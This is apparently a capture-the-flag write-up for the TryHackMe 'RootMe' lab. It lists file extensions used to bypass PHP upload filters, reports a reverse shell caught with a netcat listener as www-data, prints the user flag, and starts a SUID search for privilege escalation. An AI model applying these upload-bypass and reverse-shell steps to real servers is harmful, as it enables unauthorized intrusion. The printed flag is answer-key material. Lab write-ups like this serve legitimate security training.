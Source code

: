 ## Theory

```sh
File Upload General Methodology

Other useful extensions:

    PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

        Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

    ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

    Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action

    Coldfusion: .cfm, .cfml, .cfc, .dbm

    Flash: .swf

    Perl: .pl, .cgi

    Erlang Yaws Web Server: .yaws
```
- Lets try changing the .php with all of them
- I used .php5 and it worked `Alhumdulillah!`

## Setting the listener
```sh
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.164.87] 48992
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:02:44 up 29 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home

```
- go to the /uploads/ and click the reverse_shell.php5

## Finding User.txt
```sh
find / -type f -name user.txt 2> /dev/null

$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}

```
## Getting Root
- Search for files with SUID permission, which file is weird?
We need to run command `find / -user root -perm /4000`
